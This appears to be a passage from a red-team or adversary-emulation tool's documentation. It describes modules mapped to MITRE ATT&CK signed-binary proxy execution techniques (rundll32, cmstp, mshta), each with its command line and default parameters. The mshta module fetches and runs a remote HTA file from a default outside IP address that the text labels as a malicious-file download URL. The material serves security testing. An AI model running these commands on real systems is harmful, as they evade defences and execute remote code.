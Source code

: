 



### [T1218.011](https://attack.mitre.org/techniques/T1218/011/) - Signed Binary Proxy Execution: Rundll32

This module uses the CreateProcess Win32 API to execute

```
rundll32.exe $filePath
```

#### Parameters

| **Parameter** | **Description**                                    |
| ------------- | -------------------------------------------------- |
| filePath      | 需要执行的dll文件路径，默认`C:\Windows\Temp\files\T1218.011.dll` |



### [T1218.003](https://attack.mitre.org/techniques/T1218/003/) - Signed Binary Proxy Execution: CMSTP

This module uses the CreateProcess Win32 API to execute

```
cmstp.exe /s /ns $filePath
```

#### Parameters

| **Parameter** | **Description**                          |
| ------------- | ---------------------------------------- |
| filePath      | 执行文件路径，默认`C:\Windows\Temp\files\T1218.003.txt` |



### [T1218.005](https://attack.mitre.org/techniques/T1218/005/) - Signed Binary Proxy Execution: Mshta

This module uses the CreateProcess Win32 API to execute

```
mshta.exe $url
```

#### Parameters

| **Parameter** | **Description**                                              |
| ------------- | ------------------------------------------------------------ |
| url           | 下载恶意文件的url, 默认http://100.1.1.169:8080/T1218.005.hta |



### [T1140](https://attack.mitre.org/techniques/T1140/) - Deobfuscate/Decode Files or Information
